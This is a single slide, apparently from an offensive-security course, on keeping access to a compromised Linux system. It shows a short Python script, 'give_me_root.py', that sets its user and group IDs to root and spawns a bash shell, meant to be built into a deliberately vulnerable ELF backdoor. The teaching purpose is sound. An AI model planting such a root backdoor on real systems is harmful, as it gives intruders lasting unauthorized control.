

Maintaining Access (cont.)
On Linux-based systems
Assuming that we have obtained root privileges, there are several ways to maintain the access on a Linux-based system.
In this section will discuss creating a vulnerable ELF file.

First, we will write a simple Python script give_me_root.py
from os import setuid, setgid
from pty import spawn
setuid(0)
setgid(0)
spawn("/bin/bash")
187